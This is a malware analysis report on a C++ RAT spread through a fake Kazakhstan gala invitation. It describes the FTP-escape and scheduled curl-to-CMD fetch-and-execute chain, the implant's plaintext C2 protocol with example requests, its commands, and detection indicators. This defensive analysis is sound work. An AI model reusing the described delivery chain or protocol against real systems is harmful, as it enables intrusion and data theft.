





# Majlis 2026 Invitation RAT: OTP 123456 and a Snowy Village

```text
REPORT DESIGNATION: NADSEC-INTEL-2026-10-MAJLIS-TEARDOWN
AUTHOR: ROBERT (Senior Threat Intelligence Goblin / Caffeinated Chaos Engine)
DATE: October 02, 2026
CLASSIFICATION: TLP:CLEAR (Share freely. Print it. Tape it to your local FTP server.)
SUBJECT: Majlis 2026 Invitation RAT: "OTP 123456 and a Snowy Village"
```

## 1. EXECUTIVE SUMMARY

Welcome back to the Thunderdome. Today we are looking at the Majlis 2026 invitation archive. 

Sometimes we analyze malware that pushes the boundaries of evasion and memory manipulation. Other times, we analyze malware that chains together Windows utilities in ways that make me want to walk into the ocean. The Majlis package falls firmly into the latter category. 

We have seven files, two distinct command channels, and a delivery chain that recruits the Windows FTP client as a local shell launcher. The payload itself is a 32-bit C++ RAT wrapped in a hit-and-run MSI. It features a custom XOR decoder for its static strings, but completely forgets to encrypt its HTTP command traffic. It sends a file-transfer token borrowed from the most famous password in cinematic history. It also ships with a two-megabyte high-resolution photograph of a snowy village whose job description remains a mystery.

The punchline is that it does work. We extracted the RAT from the MSI and exercised the executable and installer in an isolated Windows 11 lab. All nine command types completed their tests. A downloaded file came back through the upload channel byte for byte, and the screenshot command captured and uploaded the lab desktop. Whatever we think of the luggage-password school of engineering, this is a functioning backdoor.

### Who Sent the Goop, and Who Was Supposed to Click It?

We contacted Smelly at vx-underground after seeing [the 1 October post](https://x.com/vxunderground/status/2105548045542736119), and he sent over the material analysed here. His source reported that it had slipped past their EDR and AV checks, including static scanning on VirusTotal. Smelly suspected a state-sponsored campaign. What landed on our desk was a working backdoor dressed up as a gala invite.

He tentatively identified the lure as an invitation to **AmCham Kazakhstan's 2026 Gala**. The event is real: [AmCham's listing](https://amchamkz.glueup.com/event/amcham-2026-gala-174439/) places it at the St. Regis Astana on **16 October 2026**, with senior executives, government officials and diplomats among its audience. Looks like they were fishing for Kazakhstan's business leaders, government officials and diplomats. Black tie, business cards, and a complimentary remote shell. Fucking lovely.

## 2. THE DELIVERY CHAIN

Our supplied seven-file `.7z` analysis bundle includes the recovered downstream stages. The original invitation described by vx-underground was a `.rar` containing just the JPEG and Internet Shortcut. Several files are wearing extensions that have absolutely nothing to do with their actual jobs. The entry point is `Scanned Image.url`, an Internet Shortcut pointing to `file://rappellingaart[.]com@SSL/secure-docs/3`. The shortcut and scripts lay out the intended delivery chain below. Our Windows runs started with the recovered MSI and EXE.

The next file is `Scanned Document 2026.lnk.bin`. This is a Windows Shell Link that borrows a Microsoft Edge icon. Its actual job is to target `C:\Windows\System32\ftp.exe`. It requests a minimized, inactive window and asks FTP to interpret `icon.ico` as a script (`-s:icon.ico`). That filename is relative to the launch directory; the supplied copy is named `icon.ico.bin`.



*Figure 1. The supplied artifacts describe two command channels. The native EXE and local MSI were exercised in the lab; the original delivery sequence was reconstructed from the shortcut and script contents.*

### Abusing FTP to Run CMD

You might think an FTP script is going to log into a server and download a binary. That would make sense. 

The 59-byte `icon.ico.bin` script does not contain a single FTP login or file transfer command. The first line uses the FTP interpreter's `!` local-shell escape. It calls `MORE` to read `\\rappellingaart[.]com@SSL\secure-docs\res.ico` over WebDAV and passes that text directly into `CMD`. The second line just exits FTP. 

They weaponized a file transfer client without performing a single FTP transfer. They summoned a network protocol binary exclusively to use its local escape hatch. FTP has been hired as a shell launcher. File transfers are apparently somebody else's department.

### The 39-Minute Batch Script

That WebDAV payload (`res.ico.bin`) is a 361-byte batch script that sets up two completely independent routes for remote commands. 

First, it creates a scheduled task named `MicrosoftUpdates\updates88679`. It uses a minute schedule with a multiplier of 39. Not thirty. Not sixty. Thirty-nine. Why 39 minutes? Maybe 40 felt too suspicious. The task reads `C:\users\public\music\err.log` and feeds it into `CMD`. 

Second, it writes the command fetcher into that exact log file. It uses `CURL` to pull tasking from `hxxp://gomescareerplans[.]com/docs/?vid=%computername%G` and sends the server's response to `CMD`. My absolute favorite part of this is the literal `G` appended to the computer name. A literal G. Flawless telemetry tracking.

Finally, the script starts a quiet MSI installation from `\\rappellingaart[.]com@SSL\secure-docs\Imp_Details.msi` and displays a message using `MSG`.

The task options specify neither a SYSTEM account nor highest privileges. This is a 39-minute trigger, not an at-boot trigger. The update-themed name and the `.log` extension are the disguise: `err.log` contains a recurring fetch-and-execute instruction, not somebody's crash diagnostics. 

| Channel | Destination | What it carries |
| :--- | :--- | :--- |
| **Scheduled script** | `hxxp://gomescareerplans[.]com/docs/?vid=<computername>G` | Command text fetched by the 39-minute task defined in the script. |
| **Native RAT** | `hxxp://www.chestergreenfarming[.]com:80/peachforthevictory/` | JSON commands and results, normally separated by 14-24 seconds of polling jitter. |

The channels are independent: the task can fetch commands without the RAT, and the RAT has its own polling and transfer endpoints. The 14-24-second delay describes its normal main loop, not every HTTP request. Immediate results and exception paths make the capture busier than a metronome.

On 1 October, the WebDAV hostname wouldn't resolve. The script endpoint answered twice with HTTP 200 and precisely fuck-all in the body.

## 3. THE DEADBEAT MSI WRAPPER

The 633,856-byte `Imp_Details.msi` is just a delivery vehicle. It contains exactly one executable in its Binary table. Extracting that stream gives you a 574,976-byte file matching the standalone `Binary.exe` supplied in the case archive (SHA-256: `5d8df4c2d08cff5f1c0de8eab56e47ae543bd5c6d2ef04573f61ebb9fbc65716`). 

The execution mechanism relies entirely on a single custom action (`_9AE88E99_8372_4458_9911_9EC626582345`). It has an empty argument field and runs at execute-sequence position 5999. The condition `NOT REMOVE~="ALL"` skips complete removal; it does not restrict the action to a first installation. The action references Binary-table key `_2E9D1C8BAC5D0F288E61BF5987C52203`.

The action type is 194 (`0xC2`). That combines EXE-from-Binary-table type 2 with flags `0x40` and `0x80`. The `0x80` flag requests asynchronous execution and `0x40` supplies continue/ignore-return behavior; together they let the installer finish without waiting for the executable. Windows Installer drops the executable, fires it up, and walks away without waiting for it to finish. The MSI's `Registry` table contains no entries. The MSI acts like a deadbeat dad, dumping the payload and immediately leaving the premises.

We extracted and inventoried all 20 MSI streams. The `File`, `Registry`, `ServiceInstall`, `ServiceControl`, `Environment` and `Shortcut` tables are empty. The single `Media` row has no cabinet, and there is no additional cabinet stream. Standard service and registry action names appear in the execute sequence, but empty tables do not magically become persistence. The payload-bearing mechanism is the executable custom action.

In the Windows run, that action produced `C:\Windows\Installer\MSIE099.tmp`. Its size and SHA-256 matched the extracted RAT. The payload ran as PID 8912 beneath the observed installer-service process; retained process identity, creation time and repeated hashing tied that process to the specimen. The installer client returned `0` while the RAT kept running. Product-state and checked uninstall entries showed no product registration.

The same run recorded **21 native-protocol polls** against the lab server, each answered with empty `next_data`. No commands were queued in that experiment. The MSI had successfully launched the implant and left it phoning home, exactly as its custom-action flags promised. The separate controlled native run supplied the commands.

## 4. INSIDE THE NATIVE RAT

`Binary.exe` is a 32-bit native C++ GUI executable built with MSVC, Boost.Asio for networking, and nlohmann JSON 3.11.3. The version resource claims it is "Microsoft redistributables" with original filename `ktvrsvc.exe` and version `72.14.0.144`. The preferred image base is `0x400000`, and CRT startup eventually calls main at `0x40d470`. Addresses in this report use that mapping. The five-section PE has no CLR directory or overlay; its resources hold version information and an execution manifest.

It is a compact backdoor built around one main polling loop and nine command handlers. Drive and directory results return through the normal HTTP polling channel. CMD and PowerShell jobs get separate worker threads. File transfers and screenshots use dedicated HTTP requests. The batch script creates the scheduled task. The EXE supplies the native backdoor.

### The Screen Door Decoder

The decoder at `0x40c780` applies a conditional XOR to hide static strings like the C2 domain, port 80, the HTTP paths, and the shell prefixes. 

```text
Recovering the static literals. Analyst pseudocode for 0x40c780; XOR instruction at 0x40c7ff.

decoded = copy(encoded_literal)
for each byte b in decoded:
    if b not in {0x00, 0x0a, 0x50, 0x5a}:
        b = b XOR 0x50
return decoded
```

They use a basic XOR 0x50, explicitly excluding four bytes. Those exceptions stay in place; the decoder does not strip them. Fine. But here is the funny part: they went through the trouble of writing this decoder to hide strings on disk, but command text in `next_data` and all outgoing JSON payloads are left in pure plaintext. They put a combination lock on a screen door.

The RAT identifies the host as `username_computername`. The helper at `0x40c560` pulls these via `GetUserNameW` and `GetComputerNameW`. This strings together the `client_id` for polling JSON and the `ClientID` header used in file transfers. 

### Plaintext HTTP and the Spaceballs Security Model

The network helper at `0x4082c0` opens a TCP connection via Winsock and Boost.Asio and manually concatenates an HTTP/1.1 request. Polling targets `/peachforthevictory/` on port 80. Each POST supplies standard headers including `Host`, `Content-Type: application/json; charset=utf-8`, `Content-Length`, and `Connection: close`. 

The outbound JSON contains `client_id` plus a property named for the current response: `fdd`, `msg` or `sts`. Startup sets that property to `fdd` with a null value. The outgoing envelope does not contain a fixed `type`/`value` pair; those fields belong to incoming commands. Polling identifies the host in JSON and does not add the transfer-only `OTP` and `ClientID` headers.

Here is an illustrative poll using a substitute hostname and lab identity. The request body is exactly 41 UTF-8 bytes:

```http
POST /peachforthevictory/ HTTP/1.1
Host: c2.invalid
Content-Type: application/json; charset=utf-8
Content-Length: 41
Connection: close

{"client_id":"labuser_LABWIN","fdd":null}
```

An illustrative directory-listing command comes back inside this response:
```json
{"next_data":"{\"type\":\"FDD\",\"value\":\"C:\\\\Lab\\\\Fixtures\"}"}
```

`next_data` is a **string containing another JSON document**. The network helper extracts the string; main parses it again. Both inner fields, `type` and `value`, must also be strings, and command labels are case-sensitive. Even `GDR` extracts and converts `value` before ignoring it for drive enumeration. Sending an object directly as `next_data`, or null as `value`, does not match the client's getters. JSON inside JSON: apparently one layer of escaping was not enough paperwork.

The outer response parser reads until socket termination, hunts for the first blank line to separate headers from the body, strips a UTF-8 BOM, and trims whitespace. If the server does not send a blank line, it blindly tries parsing the entire HTTP response as JSON.

Outer parsing disables exceptions: an invalid parse or a missing `next_data` member produces an empty command string. An existing member with the wrong type can still throw during extraction. The inner command parse uses exceptions. The helper checks non-EOF socket errors, but does not validate the HTTP status line before interpreting the body. There is no chunked-transfer decoder or application deadline in this receive path. A server that keeps the connection open can leave the client waiting. 

Uploads go to `/peachforthevictory/receive.php`. The uploader at `0x40a500` reads the entire file into memory and slaps it into a multipart request. They use a fixed multipart boundary: `----Boundary43985743985798fjkfscxWW`. The body contains one part named `file`, with a basename-derived filename and `Content-Type: application/octet-stream`. 

Wait, it gets better. Every upload adds a hardcoded header loaded from a wide-string pointer at `0x479c6c`. That header is `OTP: 123456`. This is a bespoke C++ implant using Boost.Asio, and the token it presents is the luggage combination from Spaceballs. The client sends the same token on downloads, alongside `ClientID: username_computername`. 

The upload helper returns the server's HTTP response. Both callers throw it away. The server could reject the upload and main would never check. Excellent listening skills.

Downloads use `/peachforthevictory/send.php?file=<basename>`. The command value gives the full local destination; only its basename selects the remote file. Both slash and backslash are recognized as separators. The UTF-8 basename is appended without percent encoding. The GET includes `Host`, `OTP`, `ClientID` and `Connection: close`.

The downloader at `0x40b050` requires the header/body delimiter, then searches the header region for the exact substring `200 OK`. If it finds it, it writes all bytes after the delimiter to the destination. It does not parse the status line properly, strip chunked framing or verify the declared body length. This is an HTTP implementation held together by substring searches and optimism. 

## 5. CAPABILITIES AND THE SCREENSHOT BUG

Main dispatches nine case-sensitive labels. 

| Label | Value and implementation | Result channel |
| :--- | :--- | :--- |
| **msg** | Command string, prefixed with the decoded CMD launcher and handed to a worker. | Worker posts captured shell output under `msg`. |
| **ms2** | PowerShell command string, sent through the same worker after prefix construction. | Worker posts captured PowerShell output under `msg`. |
| **FDD** | Directory path, enumerated with `FindFirstFileW`/`FindNextFileW`. | `fdd` directory array, posted immediately and retained for later polls. |
| **UPP** | Local file path, read and sent as multipart data. | Multipart upload to `receive.php`. No JSON status. |
| **DWW** | Local destination path; its basename selects the remote file. | File downloaded through `send.php`; parent directory refreshed as `fdd`. |
| **DEL** | File path, passed through a CRT wrapper to `DeleteFileW`. | Parent directory refreshed as `fdd` after the deletion attempt. |
| **RUN** | Executable path, supplied to `CreateProcessW`. | `sts` string: `success` or `failed` from process creation. |
| **GDR** | String value is required but unused; `GetLogicalDrives` selects C-Z roots. | `fdd` array of drive roots C-Z. |
| **SS1** | Path string used in screenshot destination selection, then GDI/GDI+ capture. | JPEG captured, then sent as a multipart upload to `receive.php`. |

Directory records contain `name`, `isDir`, `size` and `fmod`. Names are UTF-8, `isDir` is boolean, and size combines the high and low file-size words into an unsigned 64-bit value. The enumeration skips `.` and `..`. Last-write FILETIME becomes local time formatted as `YYYY-MM-DD HH:MM:SS`. Drive records reuse the fields but put numeric zero in both `size` and `fmod`. The same key therefore carries a timestamp string in one response and a number in another. Anyone writing a parser gets that little present for free.

The filesystem handlers use listings as feedback rather than explicit operation statuses. The `DWW` command refreshes the destination's parent directory even if the HTTP header fails its acceptance test and absolutely nothing is written. `DEL` likewise refreshes the parent listing without checking the delete return. You have to interpret a refreshed `fdd` array by its contents because getting one back does not mean the preceding operation actually worked.

`RUN` is the dedicated success/failure response among these filesystem and launch handlers. `sts:success` means `CreateProcessW` succeeded, not that the new program completed successfully.

### The Reply You Send Twice, and the Command Nobody Reads

Main keeps the current response between polls. Empty `next_data` leaves it alone, so the same directory listing or status can go out again. A nonempty command clears the response-type string and clears the JSON value according to its existing type: arrays become `[]`, strings become `""`, numbers become zero, booleans become false and null remains null.

For `FDD`, the sequence is:

1. A main-loop poll receives the command, clears the previous response and parses the inner JSON.
2. The handler records the requested directory, enumerates it, and sets the response to `fdd` plus the listing.
3. It immediately posts that listing through `0x4082c0`, from call site `0x40e69d`.
4. It destroys the returned `next_data` at `0x40e6a2` without dispatching it, then takes the normal 14-24-second jitter path.
5. The next main-loop poll sends the retained listing again. This is the reply path that can deliver another command.

Shell-output POSTs also discard returned tasking. **Only replies to main-loop polls reach the dispatcher.** A command tucked into an immediate result acknowledgement is ignored by this client. The server can speak; that particular caller has already left the room.

`UPP` and `SS1` leave the cleared response in place after their transfer. If the previous result was a directory array, the next poll can therefore look like this:

```json
{"client_id":"username_computername","":[]}
```

That empty property name is a consequence of the client's state handling. It is also a useful detail when reconstructing the exchange from traffic.

### Shell Workers: Off You Go, Good Luck

The shell branches prepend `cmd /c ` or `powershell -c ` and share the callback at `0x40cd10`. It creates an inheritable pipe and launches the assembled command line with `CREATE_NO_WINDOW`, routing stdout and stderr into the pipe. Main closes the worker-thread handle instead of joining it. Copied configuration and moved command data live in a heap-owned argument tuple until the worker finishes, so main's cleanup does not invalidate the job.

The worker closes the parent's write end and the child process/thread handles, then repeatedly reads up to **4,095 bytes** until the pipe returns zero or fails. That is the read size, not a total output limit. It accumulates the output and posts it under `msg`, including for PowerShell.

The reviewed callback has no explicit output cap or execution deadline. A child or descendant that keeps the pipe open can occupy the worker while main continues polling. If process creation fails, the worker closes the pipe and returns without posting output. A worker-side `std::exception` abandons the attempt through cleanup; main's polling retry does not restart that shell job.

Command-level exceptions clean up and take the normal jitter path. The outer catch instead retries polling directly after transport or inner-command parse exceptions, bypassing that delay; startup initialization sits outside its scope. There is no explicit retry cap or normal shutdown command in the reviewed loop.

### What Actually Happened on Windows

We used an isolated Windows 11 25H2 guest and a local HTTP replica on Kali. The configured C2 hostname resolved to that replica, which supplied inert commands and files. That let us match the client's requests to Windows process and file activity.

With nothing queued, the baseline produced **11 POST requests and 11 HTTP 200 responses**. Each request had the guest's 45-byte `client_id`/`fdd:null` body, and each reply had empty `next_data`. Procmon independently recorded 11 successful TCP connections and sends from the specimen. Intervals ranged from **17 to 23 seconds**, inside the recovered 14-24-second normal jitter.



*Figure 2. Idle polling against the local HTTP replica: 11 POST requests and 11 HTTP 200 responses, with no commands queued. [Capture summary](wireshark-native-baseline-summary.json).* 

Then we exercised the command set:

| Test | Observed result |
| :--- | :--- |
| `GDR` / `FDD` | Returned the guest's `C:\` drive, then the fixture directory with a 23-byte `alpha.txt` and a `subdir` directory. Names, types, sizes and times matched an independent Windows reference. |
| `msg` / `ms2` | CMD and PowerShell returned their exact expected output markers. Procmon recorded the corresponding child processes; the x86 implant launched the observed shells from `C:\Windows\SysWOW64\`. |
| `RUN` | Launched Notepad and returned `sts:success`. Parent Process Create and child Start/Exit records corroborated it. Windows resolved the launch to packaged Notepad beneath `WindowsApps`. |
| `DWW` / `UPP` | Downloaded a 36-byte inert file to `C:\Lab\Fixtures\received-from-lab.txt`, then uploaded the same bytes. Procmon recorded the write and the file hashes matched. |
| `DEL` | Removed the downloaded file. Procmon recorded successful `SetDispositionInformationEx` with `FILE_DISPOSITION_DELETE` and `FILE_DISPOSITION_POSIX_SEMANTICS`; the file disappeared and the listing returned to its original two entries. |
| `SS1` | Captured the desktop, wrote the ProgramData fallback and uploaded a valid JPEG. The path mistake is explained below. |

The controlled sequence generated **29 HTTP requests**: 26 polling or result POSTs, one download GET and two multipart uploads. The uploads were the test file and the screenshot. Nine commands do not mean nine requests; the immediate result posts and retained response state account for the extra traffic.



*Figure 3. Filtering for `send.php` and `receive.php` isolates one download and two uploads from the controlled run: the test file and the SS1 screenshot. [Capture summary](wireshark-native-controlled-summary.json).*

### The Screenshot Logic Bug

Let us look at the `SS1` screenshot handler, which is a masterpiece of broken logic. This perfectly explains why a successful screenshot command drops the image in a completely unexpected location. 

The handler takes your requested destination path, appends `\ss.jpg`, and then tests if that complete path is a directory. 

```text
SS1 tests the appended filename as a directory. The predicate at 0x407bd0 controls destination selection.

derived = UTF16(value) + "\ss.jpg"
if stat(derived) succeeds AND (st_mode & 0x4000) != 0:
    destination = derived
else:
    destination = "C:\programdata\ss.jpg"
capture JPEG to destination
if capture succeeds: upload destination
```

Now, Windows absolutely lets you name a directory `ss.jpg` if you really want to. But an operator is going to send a normal destination path, like `C:\temp`. The RAT appends `\ss.jpg` to it, creating `C:\temp\ss.jpg`. Then it asks the OS if that combined path is a folder. 

For a normal destination directory, that final path is either absent or a file, so it does not pass the directory test.

The RAT shrugs and writes to its hardcoded fallback: `C:\programdata\ss.jpg`. It has checked the image path instead of the parent folder. Task failed successfully.

In our controlled run, the requested fixture path stayed absent and the ProgramData fallback was written and uploaded. The Windows file and received JPEG both measured **123,772 bytes**, with SHA-256 `d862e9a53f667e83cd3acfb12e45320138bcd36d7a0fb3d295a5ebbfb7dddea9`. The received image decoded as **1024 x 768 RGB**.



*Figure 4. Desktop captured and uploaded by the RAT's SS1 command, displayed in the guest viewer. Edited presentation copy; the [original capture](screenshots/native-controlled-ss1-viewer.png) and [transfer record](ss1-visual-controlled-summary.json) are preserved.*

## 6. ANTI-ANALYSIS AND COMPILER NOISE

A short sandbox run can spend most of its observation window watching this thing take a nap. The first connection is deliberately delayed. Main hits a sleep helper at `0x41a3c0` three times, asking for 18 seconds, a random interval between 41 and 113 seconds, and another 5 seconds. That is 64 to 136 seconds of dead air before the first C2 attempt. Once it wakes up, it settles into a 14-24-second polling jitter. Setup and network overhead come on top of those requested sleeps. The sleep helper calculates a deadline and checks the clock until it is reached; the performance-counter references belong to that waiting mechanism. 

The random delays come from a 624-word Mersenne Twister seeded through `std::_Random_device`/`rand_s`. Another distracting routine, `0x40d370`, constructs and discards temporary strings; its result does not control dispatch or network state.

Do not let the imports fool you into thinking this is sophisticated. The three `IsDebuggerPresent` call sites sit in ATL initialization failure handling, CRT fatal-error reporting and invalid-parameter reporting. The `CPUID` sites belong to CPU-feature initialization. MSVC exception-handler continuations explain the apparent jump-and-return islands around main; their metadata and branch targets identify their purpose. 

Those references are compiler-runtime machinery. The reviewed clock and host-name paths wait and construct the client ID; they do not apply a VM or analyst-hostname test. The native RAT ran in our VM without patches or VM concealment, and we found no application-level VM gate in the reviewed paths. The observed concealment is selective string XOR, misleading extensions, delayed startup and bouncing through Windows utilities.

Defender Antivirus was enabled for the Windows runs, with real-time and behaviour monitoring active and signatures `1.437.1.0`. We launched the EXE and MSI directly with administrator rights in the offline lab. The RAT ran.

## 7. THE TWO-MEGABYTE VACATION PHOTO

The largest supplied file in this package is `icon2.xz`. Given the `.xz` extension and the context, you might assume this is an archive containing a secondary payload, a loader, or encrypted configuration data. 

It is a 2,086,470-byte baseline JPEG (5,641 × 3,761 pixels).



*Figure 5. The two-megabyte vacation photo hiding behind `icon2.xz`, complete with blue scribbles and a dark lower half. [Screenshot record](snowy-village-screenshot.json).*

Pillow verified its structure and decoded the full image successfully. The EXIF and XMP metadata describe a village beside a lake and snowy hills. I spent time walking the JPEG markers. JFIF, EXIF, XMP metadata, quantization and Huffman tables, the frame header, compressed image scan, and the end-of-image marker. 

The compressed image scan starts at offset 3,789 and ends exactly two bytes before EOF. There are no appended bytes to carve out. Incidental two-byte `MZ` matches inside the compressed scan do not form executable headers. The structural checks found no embedded archive or valid PE, and no reviewed code path passes this image to a loader or decoder. The scan's high entropy is normal for compressed JPEG data.

They just shipped a 2MB vacation photo. Maybe they thought it would disrupt entropy scanners. Maybe they just think we need to get out more.

## 8. INDICATORS AND HUNTING

The most reliable detection opportunities rely on the clumsy transitions between these components.

*   Look for an FTP client started by a document-themed shortcut taking `-s:icon.ico` as script input. 
*   For the scheduled script channel, hunt for the task definition `MicrosoftUpdates\updates88679` and an action reading `\public\music\err.log` into CMD. Inspecting that log file will reveal the `CURL` instruction pointing to `/docs/?vid=`.
*   On the host, track the MSI process to its child image in `C:\Windows\Installer\`, then follow that image's network activity. 
*   The screenshot fallback at `C:\programdata\ss.jpg` is a massive indicator when paired with a multipart transfer to `receive.php`.

For network hunting, you do not even need to break TLS because they did not bother using it.

*   Search for HTTP requests under `/peachforthevictory/`.
*   Look for JSON using `client_id` and `next_data`.
*   Both transfer directions broadcast `OTP: 123456` and `ClientID`. Uploads additionally carry the distinctive multipart boundary `----Boundary43985743985798fjkfscxWW`.

### YARA rules

The package includes [seven YARA rules](majlis-case.yar). One identifies the exact RAT and MSI by hash. The structural PE rule combines the fixed multipart boundary, `next_data`, both transfer-header names and imports for `CreateProcessW` and `BitBlt`. The installer rule combines the product GUID with embedded protocol strings. The other four cover the task script, FTP script, Internet Shortcut and FTP-launching Shell Link.

